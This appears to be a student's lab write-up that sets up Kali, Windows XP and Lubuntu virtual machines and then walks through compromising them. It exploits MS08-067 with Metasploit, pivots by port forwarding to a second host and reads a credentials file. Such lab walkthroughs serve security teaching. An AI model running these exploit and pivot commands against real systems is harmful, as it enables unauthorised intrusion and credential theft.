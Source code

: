 # Overview
This week our assignment was to have three VMs on a network (Alpha, Beta and Omega) and obtain access to Omega through Alpha and Omega.

![net.JPG](net.JPG)

# Setting up Kali VM
1. Go to https://www.kali.org/downloads/ and download the Kali Linux ISO (The download will take a while). Remember the path of where the file is located.
2. Once the download is finished, open up VMWare.
3. On the home screen, click on “Create a new virtual machine”
4. Select “Installer disc image file (ISO)” and enter the path where the Kali ISO was saved.
5. The Guest Operating System is Linux and the version is Ubuntu.
6. Name the VM something related to what you are using it for instead of just “Kali”. This will help you disguise it between different VMs. In addition, save it to a path you will remember later.
7. Specify the disk capacity and how the virtual disk is stored. For this example, we are going to use of 60 GB and split the disc into multiple files.
8. Customize any hardware if you like, but we will not need to.
9. Click “Finish” and double-click on VM’s name to launch it!

# Setting up Windows XP VM - Alpha & Beta
1. Obtain a version of Windows XP - SP1 and a registration. I have a copy of an ISO from a class I took in high school and will be using it for this tutorial.
2. Open up VMWare.
3. On the home screen, click on “Create a new virtual machine”.
4. Select “Installer disc image file (ISO)” and enter the path where the Windows ISO was saved.
5. The Guest Operating System is Windows and the version is XP.
6. Name the VM something related to what you are using it for instead of just “Windows”. This will help you disguise it between different VMs. In addition, save it to a path you will remember later.
7. Specify the disk capacity and how the virtual disk is stored. For this example, we are going to use of 40 GB and split the disc into multiple files.
8. Customize any hardware if you like, but we will not need to.
9. Click “Finish” and double-click on VM’s name to launch it!
10. Repeat for Beta

# Setting up Lubuntu - Omega
1. Go to https://lubuntu.me/downloads/ and download the Lubuntu ISO (The download will take a while). Remember the path of where the file is located.
2. Once the download is finished, open up VMWare.
3. On the home screen, click on “Create a new virtual machine”
4. Select “Installer disc image file (ISO)” and enter the path where the Lubuntu ISO was saved.
5. The Guest Operating System is Linux and the version is Ubuntu.
6. Name the VM something related to what you are using it for. Use "Omega" as the name for this assignment. This will help you disguise it between different VMs. In addition, save it to a path you will remember later.
7. Specify the disk capacity and how the virtual disk is stored. For this example, we are going to use of 32 GB and split the disc into multiple files.
8. Customize any hardware if you like, but we will not need to.
9. Click “Finish” and double-click on VM’s name to launch it!

10. Select your language of choice.
11. When you get to the home screen, press the down arrow and enter to select "Install Lubuntu".
12. Select your language prefernce and press "Continue".
13. On the next screen, check the box "Download updates while installing Lubuntu" and press "Continue".
14. For the installation type, select "Erase disk and install Lubuntu" and "Install Now".
  >Note: You will get a prompt if you want to make changes to the disk. Click "Continue" to make the changes.
15. Select your timezone and click "Continue".
16. Choose keyboard format of your choice and click "Continue".
17. Personal information:

  >a. Enter your name
  >b. Enter computer name
  >c. Enter username
  >d. Enter and confirm password
  >e. Press "Continue"
  
18. Wait for Lubuntu to finish installing!
  >Note: This will take a while.
19. Once installation is complete, reboot the VM and you will be able to login!

# Attacking
To get access to Omega, I am first attacking Alpha from my Kali VM to get access to Beta. To get into Alpha, I am using one of my favorite vulnerabilites, MS08-067. MS08-067 is a Remote Code Execution vulnerability on Windows XP machines.
1. Open Kali VM.
2. Open Metasploit by entering ```msfconsole```.
3. Type ```use exploit/windows/smb/ms08_067_netapi```.
4. Enter ```set RHOST 192.168.206.136```
5. Type ```run``` or ```exploit```.
6. Congrats! You have a shell! 
7. Enter the following command for port forwarding from your Kali VM to the Beta VM: ```portfwd add -l 445 -p 445 -r 192.168.206.140```
8. Type ```background``` in your shell.
9. Enter ```set RHOST 127.0.0.1```
10. Type ```run``` or ```exploit```.
11. Congrats! You have a shell now on Beta!
12. Type ```cat password.txt``` to read a file with credentials.
13. You now have the credentials to the Omega VM!

![success1.JPG](success1.JPG)
![SUCCESS.JPG](SUCCESS.JPG)
